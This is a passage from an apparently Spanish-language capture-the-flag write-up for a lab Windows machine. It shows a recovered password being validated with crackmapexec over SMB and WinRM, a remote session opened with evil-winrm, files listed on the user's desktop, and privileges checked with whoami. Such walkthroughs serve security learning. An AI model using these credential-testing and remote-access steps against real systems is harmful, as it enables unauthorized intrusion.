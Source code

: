 En la salida, podemos ver que **Chase** tiene credenciales válidas con la combinación **`Q4)sJu\Y8qz*A3?d`**, que corresponde a la contraseña asociada a ese usuario:

```
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d
```

Ahora verificamos que el usuario tenga ejecución remota de comandos igualmente con `crackmapexec` y pues si tiene ejecución remota de comandos 

```zsh
crackmapexec winrm 10.10.10.149 -u 'Chase' -p 'Q4)sJu\Y8qz*A3?d' 2>/dev/null 
SMB         10.10.10.149    5985   SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
HTTP        10.10.10.149    5985   SUPPORTDESK      [*] http://10.10.10.149:5985/wsman
WINRM       10.10.10.149    5985   SUPPORTDESK      [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d (Pwn3d!)
```

# Ejecución Remota de Comandos (RCE)

Utilizamos `evil-winrm` para iniciar una sesión remota y obtener la primera bandera:

```zsh
evil-winrm -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'
```

En el escritorio del usuario `Chase`, encontramos un archivo `todo.txt` que contiene algunas tareas pendientes:

```zsh
*Evil-WinRM* PS C:\Users\Chase\Desktop> dir
    Directory: C:\Users\Chase\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ -----
-a----        4/22/2019   9:08 AM            121 todo.txt
-ar---        11/8/2024   7:46 PM             34 user.txt

*Evil-WinRM* PS C:\Users\Chase\Desktop> type todo.txt
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.
```

Gracias a un error de configuración, tenemos acceso con el usuario `Chase`, aunque nuestros privilegios son limitados. A continuación, revisamos los privilegios de usuario:

```powershell
*Evil-WinRM* PS C:\Users\Chase\Desktop> whoami /all
USER INFORMATION
----------------
User Name                SID
=================        ==============================================
supportdesk\chase        S-1-5-21-4254423774-1266059056-3197185112-1012

GROUP INFORMATION
-----------------
Group Name                             Type            SID          Attributes
======================================= =============== =========== ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users        Alias           S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
```